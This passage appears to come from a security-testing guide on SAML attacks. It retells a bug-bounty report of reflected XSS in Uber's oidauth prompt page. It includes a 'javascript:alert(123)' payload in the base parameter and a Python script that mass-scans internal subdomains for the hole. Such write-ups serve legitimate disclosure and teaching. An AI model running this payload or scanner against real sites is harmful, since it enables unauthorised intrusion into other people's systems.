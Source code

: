 ```python
    # This is a simplified representation. In a real scenario, additional steps for handling the SAML Response would be required.
    try:
        # Code to send the SAML Response to SP-Target would go here
        return "SAML Response successfully redirected to SP-Target."
    except Exception as e:
        return f"Failed to redirect SAML Response: {e}"
```

## XSS in Logout functionality

The original research can be accessed through [this link](https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-subdomains/).

During the process of directory brute forcing, a logout page was discovered at:

```
https://carbon-prototype.uberinternal.com:443/oidauth/logout
```

Upon accessing this link, a redirection occurred to:

```
https://carbon-prototype.uberinternal.com/oidauth/prompt?base=https%3A%2F%2Fcarbon-prototype.uberinternal.com%3A443%2Foidauth&return_to=%2F%3Fopenid_c%3D1542156766.5%2FSnNQg%3D%3D&splash_disabled=1
```

This revealed that the `base` parameter accepts a URL. Considering this, the idea emerged to substitute the URL with `javascript:alert(123);` in an attempt to initiate an XSS (Cross-Site Scripting) attack.

### Mass Exploitation

[From this research](https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-subdomains/):

The [**SAMLExtractor**](https://github.com/fadyosman/SAMLExtractor) tool was used to analyze subdomains of `uberinternal.com` for domains utilizing the same library. Subsequently, a script was developed to target the `oidauth/prompt` page. This script tests for XSS (Cross-Site Scripting) by inputting data and checking if it's reflected in the output. In cases where the input is indeed reflected, the script flags the page as vulnerable.

```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from colorama import init ,Fore, Back, Style
init()

with open("/home/fady/uberSAMLOIDAUTH") as urlList:
            for url in urlList:
                url2 = url.strip().split("oidauth")[0] + "oidauth/prompt?base=javascript%3Aalert(123)%3B%2F%2FFady&return_to=%2F%3Fopenid_c%3D1520758585.42StPDwQ%3D%3D&splash_disabled=1"
                request = requests.get(url2, allow_redirects=True,verify=False)
                doesit = Fore.RED + "no"
                if ("Fady" in request.content):
                    doesit = Fore.GREEN + "yes"
                print(Fore.WHITE + url2)
                print(Fore.WHITE + "Len : " + str(len(request.content)) + "   Vulnerable : " + doesit)
```
